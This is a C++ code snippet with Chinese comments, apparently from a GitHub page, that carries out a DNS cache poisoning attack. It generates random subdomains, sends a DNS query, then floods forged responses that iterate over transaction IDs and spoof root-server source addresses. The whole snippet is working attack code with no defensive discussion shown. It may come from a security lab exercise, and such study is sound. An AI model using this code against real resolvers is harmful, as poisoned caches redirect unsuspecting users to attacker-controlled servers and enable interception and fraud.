 ~~~c++
void GenerateChars(){
	srand(time(0));
	for (int j = 0; j < 5; j++) {

		srand(rand()+rand());
		random_char[j] = base + (rand() % 26);
	}
}


//下面再main函数内
	random_char[5]='\0';
	FILE * f_r = fopen("Payload.bin","rb");
    char r_buffer[PCKT_LEN];
    int r_n = fread(r_buffer, 1, PCKT_LEN, f_r);
	
	FILE * f_q = fopen("Query.bin","rb");
    char q_buffer[PCKT_LEN];
    int q_n = fread(q_buffer, 1, PCKT_LEN, f_q);
	
 while(1)
    {
      
	  //循环进行发包
      GenerateChars();
	  memcpy(r_buffer+0x29,&random_char,5);
	  memcpy(r_buffer+0x40,&random_char,5);
	  //memcpy(command+0x4,&random_char,5);
	  memcpy(q_buffer+0x29,&random_char,5);
     
      //发送DNS查询请求
	  send_pkt(q_buffer, q_n);
	  
	  //system(command);
	  
      
      //进行伪造响应
      for(unsigned short i=10000;i<65535;i++){ //random id:1000~2000
        unsigned short order=htons(i); //little->big
		for(int j=0;j<13;j++){
			memcpy(r_buffer+0x1c,&order,2);
			memcpy(r_buffer+0x0c,&(Root_server[j]),4);
			send_pkt(r_buffer, r_n);
		}
        
      }
	  //sleep(5);
    }
~~~

